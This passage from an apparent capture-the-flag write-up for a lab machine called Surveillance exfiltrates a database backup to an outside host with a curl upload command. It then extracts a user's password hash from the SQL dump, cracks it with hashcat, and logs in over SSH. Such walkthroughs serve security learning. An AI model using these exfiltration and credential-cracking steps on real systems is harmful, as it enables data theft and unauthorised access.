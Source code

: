 ![backups found](/assets/img/Surveillance/Surveillance_04.png)

This file looked very interesting so I decided to upload this file to my python upload server.

First start the python uploadserver

```
python3 -m uploadserver 80
```
Next use the following curl command to upload the binary

```
curl -X POST http://10.10.14.242/upload -F files=@surveillance--2023-10-17-202801--v4.4.14.sql.zip
```

After transfering the file you can unzip it using the unzip command

```
unzip surveillance--2023-10-17-202801--v4.4.14.sql.zip
```

Next up when you start reading the SQL file you can find the following line containing a password hash for the **Matthew** user on line 2242

```sql
INSERT INTO `users` VALUES (1,NULL,1,0,0,0,1,'admin','Matthew B','Matthew','B','admin@surveillance.htb','39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec','2023-10-17 20:22:34',NULL,NULL,NULL,'2023-10-11 18:58:57',NULL,1,NULL,NULL,NULL,0,'2023-10-17 20:27:46','2023-10-11 17:57:16','2023-10-17 20:27:46');
```

We could crack this hash using the following command with hashcat

```
hashcat -m 1400 -O -a 0 -w 4 hash.txt /usr/share/wordlists/rockyou.txt -o cracked.txt
```

Then after the hash has been cracked you can view it by reading the **cracked.txt** file

```
cat cracked.txt                                 
39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec:starcraft122490
```

So now we know the password of **Matthew** is **starcraft122490** We were able to log in using ssh

```
ssh matthew@surveillance.htb
```

## Privilege escalation

### Lateral movement to zoneminder
